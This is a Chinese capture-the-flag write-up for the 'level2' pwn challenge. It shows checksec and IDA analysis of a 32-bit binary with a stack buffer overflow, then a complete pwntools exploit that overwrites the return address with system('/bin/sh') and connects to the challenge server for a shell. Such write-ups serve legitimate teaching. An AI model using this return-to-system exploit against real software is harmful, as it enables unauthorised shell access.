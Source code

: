 **注意这个解法，比下面的好，下面的还要报错：**[[level2最佳解法]]

先看文件属性，知道是32位程序  
![先checksec查看文件](https://sphandsomejack.github.io/2020/01/31/level2/z.png)

开启了NX，没法用shellcode，但是没有栈保护，可以直接栈溢出  
用32位IDA打开，先看字符串窗口，看看有没有可以直接利用的字符串  
![在这里插入图片描述](https://sphandsomejack.github.io/2020/01/31/level2/a.png)  
发现有system和/bin/sh可以利用，猜测需要溢出覆盖system函数参数，使其变成system(“/bin/sh”)来获取shell  
再看main函数，没有什么疑点，点进vulnerable_function函数看看  
![在这里插入图片描述](https://sphandsomejack.github.io/2020/01/31/level2/b.png)  
发现buf长度为0x88，但read了0x100，且并没有输入限制，存在溢出漏洞

## [](https://sphandsomejack.github.io/2020/01/31/level2/#%E6%80%9D%E8%B7%AF%EF%BC%9A "思路：")思路：

1. 填充字符使buf溢出
2. 溢出后将read函数的返回地址覆盖为system的地址，进入我们构造的伪栈帧
3. 覆盖system的参数，使其变为”/bin/sh”
4. 拿到shell，然后寻找flag

exp：
```python
from pwn import *  
elf = ELF('./level2')  
sys_addr = elf.symbols['system'] #获取system函数地址  
binsh_addr = elf.search('/bin/sh').next() #获取'/bin/sh'字符串的地址  
  
payload = 'a'*140 + p32(sys_addr) + p32(0x1111) + p32(binsh_addr)  
  
sh = remote('111.198.29.45',57892)  
sh.recvline()  
sh.sendline(payload)  
sh.interactive()
```

payload解释：

1. ‘a’*140：由于buf长0x88(十进制为136)，且32位程序ebp长0x4(十进制为4)，所以总共要填充140个字符
2. p32(sys_addr)：覆盖read的返回地址，使其变成system函数地址
3. p32(0x1111)：用于覆盖system的函数返回地址，由于system(“bin/sh”)执行完后会直接拿到shell，所以随便填一个地址即可
4. p32(binsh_addr)：字符串地址，system的参数

拿到shell以后，只需要ls看看有没有flag文件，如果有，直接cat flag就能拿到flag